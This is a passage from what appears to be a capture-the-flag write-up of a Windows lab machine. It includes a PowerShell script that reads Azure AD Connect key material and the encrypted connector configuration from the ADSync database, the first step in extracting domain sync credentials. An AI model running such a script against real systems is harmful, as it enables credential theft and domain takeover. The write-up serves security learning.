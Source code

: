 Awesome.

The file `user.txt` is at `mhope`'s desktop.

{% include image.html image_alt="207a1adb.png" image_src="/69130b0b-7835-492e-81fb-078806c1be05/207a1adb.png" %}

## Privilege Escalation

During enumeration of `mhope`'s account, I noticed that Microsoft Azure Active Directory Connect and Microsoft SQL Server were installed.

{% include image.html image_alt="a2075b1d.png" image_src="/69130b0b-7835-492e-81fb-078806c1be05/a2075b1d.png" %}

Google lands me to this excellent [article](https://blog.xpnsec.com/azuread-connect-for-redteam/). Taking a leaf from the article led me to searching for the appropriate Active Directory Synchronization parameters.

{% include image.html image_alt="a0a75a8b.png" image_src="/69130b0b-7835-492e-81fb-078806c1be05/a0a75a8b.png" %}

We can see the SQL server name and database name from above. Armed with this insight, we can attempt a SQL connection to the above database with the following PowerShell commands.

<div class="filename"><span>leak.ps1</span></div>

```powershell
$connection = "server=monteverde;database=ADSync;integrated security=true"
$client = new-object System.Data.SqlClient.SqlConnection -ArgumentList $connection
$client.Open()
$cmd = $client.CreateCommand()
$cmd.CommandText = "SELECT keyset_id, instance_id, entropy FROM mms_server_configuration"
$reader = $cmd.ExecuteReader()
$reader.Read() | Out-Null
$key_id = $reader.GetInt32(0)
$instance_id = $reader.GetGuid(1)
$entropy = $reader.GetGuid(2)
$reader.Close()

$cmd = $client.CreateCommand()
$cmd.CommandText = "SELECT private_configuration_xml, encrypted_configuration FROM mms_management_agent WHERE ma_type = 'AD'"
$reader = $cmd.ExecuteReader()
$reader.Read() | Out-Null
$config = $reader.GetString(0)
$crypted = $reader.GetString(1)
$reader.Close()

Write-Host $config
```

Running the script gave me this.

{% include image.html image_alt="ba901a64.png" image_src="/69130b0b-7835-492e-81fb-078806c1be05/ba901a64.png" %}
